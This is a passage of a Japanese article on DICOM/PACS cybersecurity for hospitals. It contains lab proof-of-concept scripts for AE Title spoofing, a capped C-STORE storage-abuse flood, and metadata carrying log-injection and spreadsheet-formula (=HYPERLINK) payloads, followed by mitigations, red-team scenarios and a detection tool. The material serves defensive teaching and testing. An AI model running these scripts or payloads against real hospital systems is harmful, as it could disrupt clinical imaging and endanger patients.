if __name__ == "__main__":
    main()
```
匿名化では、DICOM PS3.15 の de-identification profile、Private Tag処理、UID再生成、画像内焼き込み文字検査を含めて設計する必要がある。

### 4. AE Title spoofingのPoC
Calling AE Titleを任意に変更してC-ECHOを送る。
```bash
python scripts/ae_title_spoof_lab.py --calling-aet CT_ROOM_01
python scripts/ae_title_spoof_lab.py --calling-aet MRI_ROOM_02
python scripts/ae_title_spoof_lab.py --calling-aet ANY_AE_TITLE
```
```python ae_title_spoof_lab.py
import argparse

from pynetdicom import AE
from pynetdicom.sop_class import Verification


PACS_HOST = "127.0.0.1"
PACS_PORT = 4242
PACS_AET = "ORTHANC"


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "--calling-aet",
        default="CT_ROOM_01",
        help="Calling AE Title to present to the PACS",
    )
    args = parser.parse_args()

    ae = AE(ae_title=args.calling_aet)
    ae.add_requested_context(Verification)

    assoc = ae.associate(PACS_HOST, PACS_PORT, ae_title=PACS_AET)

    if not assoc.is_established:
        print("Association failed")
        return

    status = assoc.send_c_echo()

    if status:
        print(f"Calling AE Title: {args.calling_aet}")
        print(f"C-ECHO status: 0x{status.Status:04X}")
    else:
        print("C-ECHO failed")

    assoc.release()


if __name__ == "__main__":
    main()
```
AE Titleだけでなく、送信元IP、証明書、装置台帳、ネットワークセグメントを組み合わせて制御する必要がある。

### 5. storage abuseのPoC
DICOMを連続送信し、PACSが受信・保存する挙動を確認する。破壊的負荷にならないよう、サイズ・送信数を小さくしている。
```bash
python scripts/storage_abuse_lab.py --count 20
```
```python storage_abuse_lab.py
import argparse
from pathlib import Path
from datetime import datetime

import numpy as np
import pydicom
from pydicom.dataset import Dataset, FileDataset
from pydicom.uid import ExplicitVRLittleEndian, SecondaryCaptureImageStorage, generate_uid
from pynetdicom import AE
from pynetdicom.sop_class import SecondaryCaptureImageStorage as SC_STORAGE


PACS_HOST = "127.0.0.1"
PACS_PORT = 4242
PACS_AET = "ORTHANC"
CALLING_AET = "LABCLIENT"


def build_dicom(index: int, rows: int, columns: int) -> FileDataset:
    file_meta = Dataset()
    file_meta.MediaStorageSOPClassUID = SecondaryCaptureImageStorage
    file_meta.MediaStorageSOPInstanceUID = generate_uid()
    file_meta.TransferSyntaxUID = ExplicitVRLittleEndian
    file_meta.ImplementationClassUID = generate_uid()

    ds = FileDataset(
        None,
        {},
        file_meta=file_meta,
        preamble=b"\0" * 128,
    )

    now = datetime.now()

    ds.PatientName = f"LOADTEST^{index:04d}"
    ds.PatientID = f"LOAD-{index:04d}"
    ds.StudyDate = now.strftime("%Y%m%d")
    ds.StudyTime = now.strftime("%H%M%S")
    ds.Modality = "OT"
    ds.StudyDescription = "LAB STORAGE LOAD TEST"
    ds.SeriesDescription = "Small generated images"
    ds.InstitutionName = "DICOM Cybersecurity Lab"

    ds.StudyInstanceUID = generate_uid()
    ds.SeriesInstanceUID = generate_uid()
    ds.SOPClassUID = SecondaryCaptureImageStorage
    ds.SOPInstanceUID = file_meta.MediaStorageSOPInstanceUID

    ds.SamplesPerPixel = 1
    ds.PhotometricInterpretation = "MONOCHROME2"
    ds.Rows = rows
    ds.Columns = columns
    ds.BitsAllocated = 8
    ds.BitsStored = 8
    ds.HighBit = 7
    ds.PixelRepresentation = 0

    pixel_array = np.zeros((rows, columns), dtype=np.uint8)
    pixel_array[:, :] = index % 256
    ds.PixelData = pixel_array.tobytes()

    return ds


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument("--count", type=int, default=10)
    parser.add_argument("--rows", type=int, default=64)
    parser.add_argument("--columns", type=int, default=64)
    args = parser.parse_args()

    if args.count > 100:
        raise ValueError("Safety limit: --count must be 100 or less")

    if args.rows * args.columns > 512 * 512:
        raise ValueError("Safety limit: image size must be 512x512 or less")

    ae = AE(ae_title=CALLING_AET)
    ae.add_requested_context(SC_STORAGE)

    assoc = ae.associate(PACS_HOST, PACS_PORT, ae_title=PACS_AET)

    if not assoc.is_established:
        print("Association failed")
        return

    for index in range(args.count):
        ds = build_dicom(index=index, rows=args.rows, columns=args.columns)
        status = assoc.send_c_store(ds)

        if status:
            print(f"[{index}] C-STORE status: 0x{status.Status:04X}")
        else:
            print(f"[{index}] C-STORE failed")

    assoc.release()


if __name__ == "__main__":
    main()
```
### 6. malicious DICOM / parser attack
DICOMメタデータが後段のログ、CSV、HTML、DB、ビューアに渡ることで二次的な問題を起こし得ることを確認する。
```bash
python scripts/parser_demo.py
```
```python parser_demo.py
from pathlib import Path
from datetime import datetime
import csv

import numpy as np
from pydicom.dataset import Dataset, FileDataset
from pydicom.uid import ExplicitVRLittleEndian, SecondaryCaptureImageStorage, generate_uid


OUTPUT_DIR = Path("data/generated")
OUTPUT_DIR.mkdir(parents=True, exist_ok=True)


def create_pathological_metadata_dicom(output_path: Path) -> None:
    file_meta = Dataset()
    file_meta.MediaStorageSOPClassUID = SecondaryCaptureImageStorage
    file_meta.MediaStorageSOPInstanceUID = generate_uid()
    file_meta.TransferSyntaxUID = ExplicitVRLittleEndian
    file_meta.ImplementationClassUID = generate_uid()

    ds = FileDataset(
        str(output_path),
        {},
        file_meta=file_meta,
        preamble=b"\0" * 128,
    )

    now = datetime.now()

    ds.PatientName = "ATTACK^LOG\nInjected-Log-Line: false status"
    ds.PatientID = "=HYPERLINK(\"http://example.invalid\",\"click\")"
    ds.StudyDate = now.strftime("%Y%m%d")
    ds.StudyTime = now.strftime("%H%M%S")
    ds.Modality = "OT"
    ds.StudyDescription = ""
    ds.InstitutionName = "DICOM Parser Lab"
    ds.AccessionNumber = "LAB-PARSER-0001"

    ds.StudyInstanceUID = generate_uid()
    ds.SeriesInstanceUID = generate_uid()
    ds.SOPClassUID = SecondaryCaptureImageStorage
    ds.SOPInstanceUID = file_meta.MediaStorageSOPInstanceUID

    ds.SamplesPerPixel = 1
    ds.PhotometricInterpretation = "MONOCHROME2"
    ds.Rows = 64
    ds.Columns = 64
    ds.BitsAllocated = 8
    ds.BitsStored = 8
    ds.HighBit = 7
    ds.PixelRepresentation = 0

    pixel_array = np.zeros((64, 64), dtype=np.uint8)
    pixel_array[8:56, 8:56] = 120
    ds.PixelData = pixel_array.tobytes()

    ds.save_as(output_path, write_like_original=False)


def naive_export_to_csv(dicom_path: Path, csv_path: Path) -> None:
    import pydicom

    ds = pydicom.dcmread(dicom_path, stop_before_pixels=True)

    rows = [
        ["field", "value"],
        ["PatientName", str(getattr(ds, "PatientName", ""))],
        ["PatientID", str(getattr(ds, "PatientID", ""))],
        ["StudyDescription", str(getattr(ds, "StudyDescription", ""))],
        ["InstitutionName", str(getattr(ds, "InstitutionName", ""))],
    ]

    with csv_path.open("w", newline="", encoding="utf-8") as f:
        writer = csv.writer(f)
        writer.writerows(rows)


def main() -> None:
    dicom_path = OUTPUT_DIR / "pathological_metadata.dcm"
    csv_path = OUTPUT_DIR / "naive_export.csv"

    create_pathological_metadata_dicom(dicom_path)
    naive_export_to_csv(dicom_path, csv_path)

    print(f"Created DICOM: {dicom_path}")
    print(f"Created CSV: {csv_path}")
    print("Inspect the CSV as text before opening it in spreadsheet software.")


if __name__ == "__main__":
    main()
```

## 6. 医療安全(patient safety, medical safety)への影響
### Availability impact
PACSやDICOMルータの可用性低下は以下のような影響に繋がる。
* 新規撮影画像がPACSに保存できない
* 読影医が画像を開けない
* 救急患者のCT確認が遅れる
* 術前画像が参照できない
* 過去画像比較ができない
* モダリティ側に未送信キューが滞留する
* 外部紹介用メディア作成が止まる
* 放射線部門の受付・撮影・読影・報告フローが分断される

### Patient safety
DICOM/PACSに関する攻撃は、患者安全に以下の形で影響する。  
医療サイバーセキュリティでは、完全性と可用性を臨床影響として評価する必要がある。
* 診断遅延
* 読影遅延
* 誤患者への画像紐付け
* 偽Study混入
* 過去画像比較の失敗
* 治療方針決定の遅延
* 緊急手術判断の遅延
* 画像誘導治療への影響
* 患者情報漏洩・プライバシー侵害

攻撃者が画像そのものを改ざんしなくても、検査一覧、Study Description、Patient ID、Accession Number、検査日時が混乱するだけで、臨床ワークフローは大きく乱れる。

### Clinical workflow
DICOMは部門間ワークフローに深く組み込まれている。

```
検査オーダ
  -> Modality Worklist
  -> 撮影
  -> C-STORE
  -> PACS保存
  -> 読影
  -> レポート作成
  -> 電子カルテ参照
```
特にPACS障害時には、技術的復旧だけでなく、代替運用が必要になる。
* 緊急検査の優先順位付け
* モダリティローカル保存の運用
* 手動搬送
* 一時Viewer
* 紙・電話による読影連携
* 復旧後の画像再同期
* 監査ログとの突合


## 7. 攻撃パターンと防御策
| 攻撃面 | 典型的な問題 | 主な影響 | Mitigation |
| - | - | - | - |
| 平文DICOM | 通信内容が見える | PHI漏えい、AE Title漏えい | DICOM TLS、ネットワーク分離 |
| C-FIND | メタデータ列挙 | 患者情報漏えい | AE/IP/証明書制御、検索制限、監査ログ |
| C-STORE | 不正DICOM投入 | 偽Study、ストレージ枯渇 | 送信元制限、Quota、Rate limit、検疫 |
| AE Title spoofing | 文字列だけで信頼 | 不正接続 | mTLS、AE/IP/証明書マッピング |
| Storage abuse | 大量投入 | PACS停止、バックアップ肥大 | 容量監視、上限、異常検知 |
| Malicious DICOM | 後段処理を攻撃 | Viewer/PACSクラッシュ | パーサ隔離、Fuzzing、SBOM、更新 |
| 匿名化不備 | Private TagやPixel Dataに残存 | 再識別 | DICOM匿名化プロファイル、検査ツール |
| 監査不足 | 攻撃検知不能 | 発見遅延 | Audit log、SIEM連携、アラート |

## 8. mitigation
### Segmentation
DICOM機器ネットワークは、一般端末ネットワーク、ゲストWi-Fi、事務系ネットワーク、インターネット接続系から分離する。

最低限実施すべき制御・設計は以下の通り。
* PACS VLAN
* モダリティ VLAN
* 読影端末 VLAN
* 管理 VLAN
* ベンダ保守接続 VLAN
* DICOMルータまたはゲートウェイ
* Firewallで送信元・宛先・ポートを最小化
* DICOMポートを広域に開放しない
* 不要なC-MOVE/C-GETを遮断
* 保守VPNからPACS直通を許可しない
* ベンダ保守回線の監査

DICOMでは、「どのAEが、どのPACSへ、どのサービスを使うか」まで制御する必要がある。

### DICOM TLS
DICOM通信をTLSで保護できる。

DICOM TLSを利用した推奨設計は以下の通り。
* DICOM over TLSを有効化
* サーバ証明書を検証
* クライアント証明書を必須化
* AE Title、IP、証明書Subject/SANを対応付ける
* 証明書失効・更新手順を運用に組み込む
* TLS非対応レガシー機器はTLSゲートウェイ配下に隔離
* 平文DICOMを段階的に廃止

認可設計が弱いとDICOM TLSだけでは対応が不十分である。どのAEがどの操作を許されるかは、別途制御する必要がある。

### Audit log
PACSやDICOMルータでは、最低限以下の項目をログとして取得・保存するべきである。

| ログ項目 | 目的 |
| - | - |
| Timestamp | 事後調査・時系列分析 |
| Source IP | 送信元追跡 |
| Calling AE Title | AE spoofing検知 |
| Called AE Title | 誤接続検知 |
| Operation | C-ECHO、C-FIND、C-STOREなど |
| SOP Class | 不審なオブジェクト検知 |
| Patient ID | 影響範囲特定 |
| StudyInstanceUID | 影響範囲特定 |
| AccessionNumber | 業務影響分析 |
| Object size | Storage abuse検知 |
| Result status | 失敗・拒否・異常検知 |
| Transfer Syntax | 想定外形式検知 |

アラートとして以下のようなものが考えられる。
* 未登録AE TitleからAssociation
* 未登録IPからC-FIND
* C-FIND件数の急増
* 深夜帯の大量C-FIND
* 通常モダリティ以外からC-STORE
* 1時間あたりのC-STORE容量急増
* Unknown SOP Class
* 想定外Transfer Syntax
* C-STORE失敗率の急増
* C-MOVE要求先が想定外

ログは取得するだけでなく、PACS障害やインシデント時に臨床影響を追えるようにする必要がある。

### SBOM(Software Bill of Materials)
DICOM処理系は、複数のライブラリとコーデックに依存している。そのため、医療機器やPACSでは、SBOMが特に重要である。

外部コンポーネント例
* DICOMライブラリ
  * DCMTK
  * GDCM
  * dcm4che
  * fo-dicom
  * pydicom
*  画像デコーダ
  * JPEG
  * JPEG-LS
  * JPEG 2000
  * RLE
* Web Viewer
  * JavaScriptライブラリ
  * WebGL関連コンポーネント
* PDF処理
* XML/JSON処理
* OSパッケージ
* DB
* Webサーバ
* コンテナイメージ

SBOMで把握すべき要素
* PACS本体
* DICOMライブラリ
* DICOMweb実装
* 画像ビューア
* JPEG/JPEG2000/RLEコーデック
* DCMTK、GDCM、dcm4che、fo-dicom等の利用有無
* OpenSSLなどTLSライブラリ
* Webサーバ
* DB
* OSパッケージ
* コンテナイメージ
* エージェント
* サードパーティプラグイン
* AI解析前処理コンポーネント

各要素において把握すべき項目
| 項目 | 理由 |
| - | - |
| コンポーネント名 | 影響範囲特定 |
| バージョン | CVE照合 |
| 依存関係 | 間接リスク把握 |
| ライセンス | 調達・運用確認 |
| ビルド情報 | 再現性 |
| ベンダ修正状況 | パッチ計画 |
| 使用箇所 | 臨床影響評価 |

SBOM導入の目的は、脆弱性が出たときに、どの医療機器・PACS・ビューア・変換基盤が影響を受けるかを即座に判断することである。

### 入力検証と制限
PACSやDICOM Gatewayでは、以下の制御を行う。
* 受け入れるAE Titleを制限
* 送信元IPを制限
* 許可するSOP Classを制限
* 許可するTransfer Syntaxを制限
* 最大DICOMサイズを制限
* 最大画像サイズを制限
* 1 AssociationあたりのC-STORE件数を制限
* 単位時間あたりのC-FIND回数を制限
* Private Tag処理を制限
* 異常な文字列長を拒否
* 制御文字を正規化
* Pixel Data処理をサンドボックス化
* サムネイル生成を隔離
* 失敗時にPACS全体を巻き込まない

### 匿名化プロセスの強化
匿名化では以下を行う。
* DICOM PS3.15に基づくプロファイル選択
* Patient系タグの削除・置換
* Physician系タグの削除・置換
* Institution系タグの削除・置換
* UIDの再生成または対応表管理
* Private Tag削除
* Structured Report確認
* Encapsulated PDF確認
* Pixel Data内焼き込み文字確認
* 匿名化後の再検査
* サンプル抽出による人手確認
* 研究データ提供時の再識別リスク評価

匿名化はツールを一度通して終わりではなく、検証可能なプロセスとして扱う。

## 9. 病院レッドチーム演習で確認すべき観点とシナリオ例
### 技術的観点
* 未知のAE TitleでAssociationできるか
* C-ECHOに応答する範囲はどこか
* C-FINDでどの範囲のメタデータが返るか
* C-STOREがどの送信元から許可されているか
* 大量C-STOREを検知できるか
* 不正メタデータを含むDICOMを拒否できるか
* Viewerや変換ツールが異常DICOMで停止しないか
* DICOM通信が平文か
* DICOM TLSが正しく設定されているか
* AE Titleと証明書が対応付けられているか
* C-MOVEの宛先制限があるか
* PACS管理画面が分離されているか

### 医療安全観点
* PACS停止時の代替運用があるか
* 救急検査の優先手順があるか
* モダリティローカル保存からの復旧手順があるか
* 読影医への連絡手段があるか
* 復旧後の画像再送・重複排除手順があるか
* 影響患者の特定手順があるか
* インシデント時に診療部門へ通知できるか
* サイバー演習が臨床現場の混乱を起こさないよう設計されているか

### ログ・検知観点
* DICOM Associationログが残るか
* Calling AE Titleが記録されるか
* Source IPが記録されるか
* C-FIND条件が記録されるか
* C-STORE件数が記録されるか
* 異常なTransfer Syntaxが検知されるか
* 未知AEからの通信が通知されるか
* SIEMに転送されるか
* PACSベンダログを取得できる契約・手順があるか

### シナリオA: DICOMメタデータ列挙
目的:
* C-FINDによる情報露出を確認する
* 患者情報、検査情報、装置情報が過剰に返らないか確認する

成功条件:
* 未登録AEからC-FINDが拒否される
* 許可AEでも必要最小限のQuery/Retrieveのみ可能
* 監査ログに検索条件、件数、送信元が残る
* SIEMで異常検索が検知される

### シナリオB: AE Title spoofing
目的:
* AE Titleのみを信頼していないか確認する

成功条件:
* 既知AE Titleを名乗っても、未登録IP・未登録証明書なら拒否
* Calling AE Titleと送信元IPの不一致が検知される
* ログに拒否理由が残る

### シナリオC: Storage abuse
目的:
* C-STOREによる容量圧迫に耐性があるか確認する

安全条件:
* 合成DICOMのみ使用
* 事前に容量上限を決める
* 本番PACSでは実施しない
* 検証用PACSまたは隔離環境で実施する

成功条件:
* Quotaにより上限で止まる
* 異常なC-STORE量が検知される
* 通常撮影画像の保存に影響しない
* バックアップ・レプリケーションに波及しない

### シナリオD: Malicious DICOM / Parser robustness
目的:
* DICOMパーサ、ビューア、変換基盤が異常データを安全に処理できるか確認する

安全条件:
* 実患者データを使わない
* 本番ビューアに投入しない
* クラッシュしても診療影響がない環境で実施
* 既知の実攻撃コードではなく、検証用の異常属性・Private Tag・大きめメタデータに留める

成功条件:
* パーサが異常を検出して拒否する
* クラッシュしてもサンドボックス内で収束する
* PACS本体プロセスに影響しない
* 監査ログに不正オブジェクトとして残る

## 10. まとめ
DICOMは医療画像の標準であり、医療現場に不可欠な基盤である。一方で、歴史的に閉域網前提で運用されてきたため、以下のようなリスクを抱えやすい。
* 平文通信
* AE Title spoofing
* C-FINDによるmetadata leakage
* C-STOREによるstorage abuse
* 匿名化不備
* malicious DICOM
* parser attack
* PACS停止によるavailability impact
* 診療遅延によるpatient safetyリスク
* clinical workflowへの波及

これらはすべて、単なる情報セキュリティ上の問題ではなく、医療安全の問題である。

病院においても、企業と同様に基本的なセキュリティ対策を行う必要があり、相対的に攻撃を受けにくくなる等、ある程度は有効である。  
しかし、日本の医療現場においては、伝統的な医療体制と医療安全の考慮により、システム更新が難しかったり、使用できるソフトウェアに制限があるなど、基本的なセキュリティ対策が難しい場面も少なくない。  
また、AIを利用した攻撃が台頭しているこの時代において、どれだけ堅牢にしても、ほんの少しの脆弱性を足掛かりに人間には対応できないmachine speedで攻撃を受けることになる。  
全てを防御するのは現実的ではないため、災害と同様またはそれ以上の危機感を持って、あらゆる被害を想定した攻撃対応訓練(紙カルテ・検査オーダの利用、停電時の対応など)を避難訓練のように行っておくことが何よりも大切である。

## 11. Appendix

`make_suspicious_dicom.py`は、Private Tagと大きめメタデータを含む検証用DICOMを作る。

`safe_dicom_inspector.py`で、以下の項目を検出できる。
* PHIらしきメタデータ
* Private Tag
* Burned-in Annotation
* 大きな文字列属性
* 想定外Transfer Syntax
* メタデータ要素数

この考え方を、PACS、ビューア、AI解析基盤、匿名化ツールの受け入れ検査に広げると、parser attack耐性の確認に使える。

**make_suspicious_dicom.py**
```python make_suspicious_dicom.py
from __future__ import annotations

import argparse
from pathlib import Path

import pydicom


def main() -> None:
    parser = argparse.ArgumentParser(
        description="検証用のSuspicious DICOMを作成します。"
    )
    parser.add_argument("--input", required=True)
    parser.add_argument("--out", default="data/suspicious.dcm")
    args = parser.parse_args()

    src = Path(args.input)
    out = Path(args.out)

    if not src.exists():
        raise SystemExit(f"input not found: {src}")

    ds = pydicom.dcmread(str(src))

    ds.BurnedInAnnotation = "YES"
    ds.ImageComments = "LAB_ONLY_METADATA_PADDING:" + ("X" * 4096)

    ds.add_new((0x0011, 0x0010), "LO", "LAB_PRIVATE_CREATOR")
    ds.add_new(
        (0x0011, 0x1001),
        "LT",
        "LAB_ONLY_PRIVATE_TAG_MARKER: this simulates hidden metadata, not exploit code.",
    )

    out.parent.mkdir(parents=True, exist_ok=True)
    ds.save_as(str(out), write_like_original=False)

    print(f"created: {out}")


if __name__ == "__main__":
    main()
```
**safe_dicom_inspecor.py**
```python safe_dicom_inspector.py
from __future__ import annotations

import argparse
import json
from pathlib import Path
from typing import Any, Dict, List

import pydicom
from pydicom.errors import InvalidDicomError


PHI_KEYWORDS = [
    "PatientName",
    "PatientID",
    "PatientBirthDate",
    "PatientSex",
    "AccessionNumber",
    "StudyDate",
    "StudyTime",
    "InstitutionName",
    "ReferringPhysicianName",
    "StudyDescription",
    "SeriesDescription",
    "ProtocolName",
    "StationName",
    "DeviceSerialNumber",
]


def safe_text(value: Any, limit: int = 160) -> str:
    text = str(value)

    if len(text) > limit:
        return text[:limit] + "...<truncated>"

    return text


def value_length(value: Any) -> int | None:
    if isinstance(value, bytes):
        return len(value)

    if isinstance(value, str):
        return len(value)

    try:
        return len(value)
    except TypeError:
        return None


def inspect_dicom(
    path: Path,
    force: bool,
    max_file_mb: int,
    max_text_len: int,
    max_elements: int,
) -> Dict[str, Any]:
    result: Dict[str, Any] = {
        "file": str(path),
        "size_bytes": path.stat().st_size,
        "flags": [],
        "phi_like_metadata": [],
        "private_tags": [],
        "large_text_elements": [],
        "summary": {},
    }

    max_bytes = max_file_mb * 1024 * 1024

    if result["size_bytes"] > max_bytes:
        result["flags"].append(
            f"file_size_exceeds_limit: {result['size_bytes']} > {max_bytes}"
        )

    try:
        ds = pydicom.dcmread(
            str(path),
            stop_before_pixels=True,
            force=force,
        )
    except InvalidDicomError as exc:
        result["flags"].append(f"invalid_dicom: {exc}")
        return result

    result["summary"]["SOPClassUID"] = safe_text(getattr(ds, "SOPClassUID", ""))
    result["summary"]["TransferSyntaxUID"] = safe_text(
        getattr(getattr(ds, "file_meta", None), "TransferSyntaxUID", "")
    )
    result["summary"]["Modality"] = safe_text(getattr(ds, "Modality", ""))
    result["summary"]["StudyInstanceUID"] = safe_text(
        getattr(ds, "StudyInstanceUID", "")
    )

    for keyword in PHI_KEYWORDS:
        value = getattr(ds, keyword, None)

        if value is not None and str(value) != "":
            result["phi_like_metadata"].append(
                {
                    "keyword": keyword,
                    "value": safe_text(value),
                }
            )

    burned_in = str(getattr(ds, "BurnedInAnnotation", "")).upper()

    if burned_in == "YES":
        result["flags"].append("burned_in_annotation_yes")

    element_count = 0

    for elem in ds.iterall():
        element_count += 1

        if element_count > max_elements:
            result["flags"].append(f"too_many_elements: > {max_elements}")
            break

        if elem.tag.is_private:
            result["private_tags"].append(
                {
                    "tag": str(elem.tag),
                    "name": elem.name,
                    "vr": elem.VR,
                    "value_preview": safe_text(elem.value),
                }
            )

        length = value_length(elem.value)

        if isinstance(elem.value, str) and length is not None and length > max_text_len:
            result["large_text_elements"].append(
                {
                    "tag": str(elem.tag),
                    "keyword": elem.keyword,
                    "name": elem.name,
                    "vr": elem.VR,
                    "length": length,
                    "value_preview": safe_text(elem.value),
                }
            )

    result["summary"]["metadata_element_count"] = element_count
    result["summary"]["private_tag_count"] = len(result["private_tags"])
    result["summary"]["phi_like_metadata_count"] = len(result["phi_like_metadata"])

    return result


def main() -> None:
    parser = argparse.ArgumentParser(
        description="DICOMを安全寄りに検査し、PHI残存や異常属性を確認します。"
    )
    parser.add_argument("file")
    parser.add_argument("--force", action="store_true")
    parser.add_argument("--max-file-mb", type=int, default=32)
    parser.add_argument("--max-text-len", type=int, default=512)
    parser.add_argument("--max-elements", type=int, default=5000)
    args = parser.parse_args()

    path = Path(args.file)

    if not path.exists():
        raise SystemExit(f"file not found: {path}")

    result = inspect_dicom(
        path=path,
        force=args.force,
        max_file_mb=args.max_file_mb,
        max_text_len=args.max_text_len,
        max_elements=args.max_elements,
    )

    print(json.dumps(result, ensure_ascii=False, indent=2))


if __name__ == "__main__":
    main()
```


> c-echo status 追加
